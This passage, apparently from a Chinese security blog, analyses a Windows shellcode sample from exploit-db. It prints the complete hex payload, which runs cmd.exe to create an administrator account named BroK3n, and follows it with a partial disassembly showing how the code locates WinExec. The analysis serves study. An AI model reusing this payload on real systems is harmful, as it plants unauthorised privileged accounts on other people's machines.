 作者（Giuseppe D'Amore）提供了以上的代码供检验（代码来源：https://www.exploit-db.com/exploits/33836/）。作用是在所有系统下添加一个用户，效果如下：

![enter image description here](http://drops.javaweb.org/uploads/images/60385e7797ef0571874bd7262f910b506cc22ae4.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/8e53498d6f0b9f6ccc15613e9a90767fe09964bc.jpg)

图：同一个代码在x86 XP SP3、x64 Win7 SP1下均成功地添加了用户BroK3n。

具体是怎么实现的呢，可以手动编译一下上述C++程序，也可以通过工具来生成一个EXE测试：

![enter image description here](http://drops.javaweb.org/uploads/images/f964cbe7f0e5d7f29253043b85acabce1d8ea1f9.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/6288d032fd5c9fff86abc48f2c5f797afb0fafb8.jpg)

图：去除无效字符-生成EXE即可生成调试用程序

附：提取出来的ASCII值

```
31d2b230648b128b520c8b521c8b42088b72208b12807e0c3375f289c703783c8b577801c28b7a2001c731ed8b34af01c645813e57696e4575f28b7a2401c7668b2c6f8b7a1c01c78b7caffc01c7684b336e01682042726f682f414444686f727320687472617468696e6973682041646d68726f75706863616c676874206c6f6826206e656844442026686e202f4168726f4b3368336e20426842726f4b68736572206865742075682f63206e686578652068636d642e89e5fe4d5331c05055ffd7

```

让我们看一下反汇编后的结果：

```
0:000> uf image00400000+0x5000
Flow analysis was incomplete, some code may be missing
image00400000+0x5000:
00405000 31d2            xor     edx,edx
00405002 b230            mov     dl,30h
00405004 648b12          mov     edx,dword ptr fs:[edx]
00405007 8b520c          mov     edx,dword ptr [edx+0Ch]
0040500a 8b521c          mov     edx,dword ptr [edx+1Ch]

image00400000+0x500d:
0040500d 8b4208          mov     eax,dword ptr [edx+8]
00405010 8b7220          mov     esi,dword ptr [edx+20h]
00405013 8b12            mov     edx,dword ptr [edx]
00405015 807e0c33        cmp     byte ptr [esi+0Ch],33h
00405019 75f2            jne     image00400000+0x500d (0040500d)

image00400000+0x501b:
0040501b 89c7            mov     edi,eax
0040501d 03783c          add     edi,dword ptr [eax+3Ch]
00405020 8b5778          mov     edx,dword ptr [edi+78h]
00405023 01c2            add     edx,eax
00405025 8b7a20          mov     edi,dword ptr [edx+20h]
00405028 01c7            add     edi,eax
0040502a 31ed            xor     ebp,ebp

image00400000+0x502c:
0040502c 8b34af          mov     esi,dword ptr [edi+ebp*4]
0040502f 01c6            add     esi,eax
00405031 45              inc     ebp
00405032 813e57696e45    cmp     dword ptr [esi],456E6957h
00405038 75f2            jne     image00400000+0x502c (0040502c)

image00400000+0x503a:
0040503a 8b7a24          mov     edi,dword ptr [edx+24h]
0040503d 01c7            add     edi,eax
0040503f 668b2c6f        mov     bp,word ptr [edi+ebp*2]
00405043 8b7a1c          mov     edi,dword ptr [edx+1Ch]
```
